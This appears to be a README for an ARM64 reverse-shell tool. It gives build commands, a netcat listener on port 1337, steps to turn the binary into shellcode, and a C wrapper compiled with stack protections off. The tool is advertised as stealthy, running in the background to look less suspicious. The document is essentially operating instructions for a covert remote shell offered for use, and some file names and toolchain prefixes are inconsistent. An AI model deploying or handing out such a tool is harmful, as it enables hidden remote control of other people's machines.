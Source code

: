 # ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.

## Capabilities
A small, stealthy ARM64 reverse shell that utilizes `clone()`, similar to `fork()`, in order to spawn a child process and run in the background. Ultimately to look less suspicious.

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell+clone.o && ld -N arm-revshell+clone.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell+clone` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell+clone.s -o arm-revshell+clone.o && aarch-linux-gnu-ld -N arm-revshell+clone.o -o arm-revshell+clone`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell+clone` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell+clone arm-revshell+clone.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell+clone.bin > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


